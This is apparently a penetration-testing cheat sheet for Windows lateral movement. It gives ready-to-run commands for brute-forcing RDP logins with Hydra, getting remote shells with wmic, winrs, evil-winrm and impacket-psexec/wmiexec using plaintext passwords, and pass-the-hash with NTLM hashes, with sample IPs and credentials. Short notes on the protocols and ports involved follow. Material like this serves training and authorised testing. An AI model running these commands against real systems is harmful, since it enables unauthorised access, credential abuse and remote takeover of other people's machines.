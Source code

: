 

```
hydra -l USER -p PASS rdp://<IP>
hydra -L USER.txt -P PASS.txt -M IPList rdp
```



#### 2. Pass the Hash

**WMI, WinRM, PsExec, Evil-winrm, RDP**

Use Password to Get Remote Shell

```
# Windows
wmic /node:192.168.50.73 /user:jen /password:Nexus123! process call create "calc"

winrs -r:files04 -u:jen -p:Nexus123!  "cmd /c hostname & whoami"
winrs -r:IP -u:jen -p:Nexus123!  "cmd /c hostname & whoami"

# Linux
evil-winrm -i 192.168.50.220 -u daveadmin -p "pass"
evil-winrm -i 192.168.50.220 -u daveadmin -p "qwertqwertqwert123\!\!"

impacket-psexec domain/username@10.10.10.100
```

`wmic` -  DCOM (Distributed Component Object Model) protocol / port between 49162-65535 / 135

`winrs` & `evil-winrm` - Web Service Management protocol / tcp 5985

`impacket-psexec` - smb & rpc

`impacket-wmiexec` - Windows management instrumentation (WMI) & DCOM protocol





Use NTLM Hash to Get Remote Shell

```
impacket-psexec -hashes lmhash:nthash [[domain/]username[:password]@]<targetName or address> 

impacket-wmiexec -hashes lmhash:nthash [domain/]username@192.168.50.73
```



For psexec like

```
PsExec.exe \\dc1 cmd.exe
psexec.exe \\192.168.50.70 cmd.exe
```

use IP - NTLM authentication

use hostname - kerberos authenticaiotn


